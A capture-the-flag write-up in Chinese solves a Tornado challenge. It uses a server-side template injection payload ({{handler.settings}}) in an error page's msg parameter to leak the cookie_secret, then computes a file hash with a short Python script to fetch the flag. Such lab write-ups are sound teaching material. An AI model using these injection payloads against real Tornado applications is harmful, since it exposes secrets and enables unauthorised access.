


tornado是python中的一个web应用框架。

拿到题目发现有三个文件：

flag.txt

/flag.txt
flag in /fllllllllllllag
发现flag在/fllllllllllllag文件里；

welcome.txt

/welcome.txt
render
render是python中的一个渲染函数，渲染变量到模板中，即可以通过传递不同的参数形成不同的页面。

hints.txt

/hints.txt
md5(cookie_secret+md5(filename))
filehash=md5(cookie_secret+md5(filename))
现在filename=/fllllllllllllag，只需要知道cookie_secret的既能访问flag。

测试后发现还有一个error界面，格式为/error?msg=Error，怀疑存在服务端模板注入攻击 （SSTI）

尝试/error?msg={{datetime}}
在Tornado的前端页面模板中，datetime是指向python中datetime这个模块，Tornado提供了一些对象别名来快速访问对象，可以参考Tornado官方文档

通过查阅文档发现cookie_secret在Application对象settings属性中，还发现self.application.settings有一个别名

RequestHandler.settings
An alias for self.application.settings.
handler指向的处理当前这个页面的RequestHandler对象，
RequestHandler.settings指向self.application.settings，
因此handler.settings指向RequestHandler.application.settings。

构造payload获取cookie_secret

/error?msg={{handler.settings}}

'cookie_secret': 'M)Z.>}{O]lYIp(oW7$dc132uDaK<C%wqj@PA![VtR#geh9UHsbnL_+mT5N~J84*r'
计算filehash值:

import hashlib

def md5(s):
 md5 = hashlib.md5() 
 md5.update(s) 
 return md5.hexdigest()
 
def filehash():
 filename = '/fllllllllllllag'
 cookie_secret = 'M)Z.>}{O]lYIp(oW7$dc132uDaK<C%wqj@PA![VtR#geh9UHsbnL_+mT5N~J84*r'
 print(md5(cookie_secret+md5(filename)))
 
if __name__ == '__main__':
 filehash()
payload：

file?filename=/fllllllllllllag&filehash=md5(cookie_secret+md5(/fllllllllllllag))
成功获取flag。
